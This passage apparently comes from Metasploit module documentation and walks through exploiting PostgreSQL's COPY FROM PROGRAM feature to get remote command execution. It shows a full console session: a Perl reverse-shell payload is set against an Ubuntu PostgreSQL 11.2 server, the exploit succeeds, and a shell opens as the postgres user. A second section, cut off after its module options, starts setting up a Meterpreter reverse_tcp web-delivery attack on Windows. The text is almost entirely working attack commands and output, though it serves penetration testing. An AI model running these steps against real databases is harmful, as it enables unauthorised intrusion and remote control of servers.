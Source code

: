 
    Payload options (cmd/unix/reverse_perl):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT  4456             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic
    
     msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

    [*] Started reverse TCP handler on 192.168.0.18:4456
    [*] 192.168.0.25:5432 - 192.168.0.25:5432 - PostgreSQL 11.2 (Ubuntu 11.2-1.pgdg18.04+1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0, 64-bit
    [*] 192.168.0.25:5432 - Exploiting...
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable dropped successfully
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable created successfully
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable copied successfully(valid syntax/command)
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable dropped successfully(Cleaned)
    [*] 192.168.0.25:5432 - Exploit Succeeded
    [*] Command shell session 2 opened (192.168.0.18:4456 -> 192.168.0.25:51784) at 2019-03-24 18:07:11 +0000

    whoami
    postgres
    uname -a
    Linux ubuntu 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    /usr/lib/postgresql/11/bin/postgres -V
    postgres (PostgreSQL) 11.2 (Ubuntu 11.2-1.pgdg18.04+1)

### Exploiting PostgreSQL 10.7 on Windows 10

    msf exploit(multi/script/web_delivery) > set target 2
    target => 2
    msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(multi/script/web_delivery) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf exploit(multi/script/web_delivery) > show options

    Module options (exploit/multi/script/web_delivery):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL for incoming connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)
